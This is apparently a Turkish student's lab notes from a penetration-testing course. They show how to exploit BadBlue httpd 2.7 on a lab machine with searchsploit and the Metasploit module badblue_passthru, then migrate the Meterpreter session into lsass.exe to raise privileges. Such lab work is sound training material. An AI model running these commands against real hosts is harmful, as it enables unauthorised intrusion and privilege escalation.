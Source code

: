 
## Exploit
![[Pasted image 20240207125338.png]]

### Dersteki Makine'deki zaafiyet
#badblue
### BadBlue httpd 2.7

```
searchsploit badblue 2.7
```
![[Pasted image 20240207125539.png]]
```
msfconsole -q
use exploit/windows/http/badblue_passthru
set RHOSTS 10.0.27.166
exploit
```

![[Pasted image 20240207125623.png]]
## getuid
## sysinfo
![[Pasted image 20240207131518.png]]




---
### Shell Geldi Buradan sonra kendi makinemizde Metasploitable 3 Windows'tan devam edeceğiz.

## Migrate işlemini lsass.exe'ye yapmamız gerekiyor.

## ![[Pasted image 20240207125831.png]]
## migrate -N lsass.exe
##### Bu sefer pid numarası ile değil de isimle migrate yaptık.

## Çok Önemli Not
### Eğer sistem bize NT Authority 'nin yürüttüğü bir işleme migrate yapmamıza izin veriyorsa bizim yetkimiz meterpreter shell 'de yukseliyor
![[Pasted image 20240207132031.png]]
